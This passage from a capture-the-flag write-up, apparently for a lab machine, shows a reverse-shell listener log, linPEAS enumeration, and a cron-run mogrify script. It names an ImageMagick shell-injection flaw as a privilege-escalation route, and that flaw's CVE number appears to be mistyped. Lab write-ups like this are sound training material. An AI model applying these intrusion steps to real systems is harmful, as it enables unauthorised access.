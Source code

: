 After that I start a listener up on my system and upload the exploit image, which gets us a shell:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.11.140] 60224
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

<br>

## System Enumeration

I upload **linPEAS** and run it, but don't find much interesting other than the following:

```
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
/usr/local/bin/convert_images.sh
```

<br>

## CVE-2022-29599

Taking a look at that shell script:

```
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

I look up what **mogrify** is, which I'm guessing got it's name from transmogrify, and it's part of the **ImageMagick** suite of tools used for transforming images.

The script here goes into the **convert_images folder** and then changes everything there into .png files. And it just so happens that this is set up to automatically run once a minute.

The help text shows us we can look at the version:

`mogrify -version`

```
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
```

I do a search for **mogrify exploits** and find **CVE-2022-29599** which allows RCE among other things due to:

```
ImageMagick before 6.9.11-40 and 7.x before 7.0.10-40 mishandles the -authenticate option, which allows setting a password for password-protected PDF files. The user-controlled password was not properly escaped/sanitized and it was therefore possible to inject additional shell commands via coders/pdf.c.
```

The person who discovered this issue created a [**blog post that you can find here**](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) that explains the issue in further detail and provides examples.
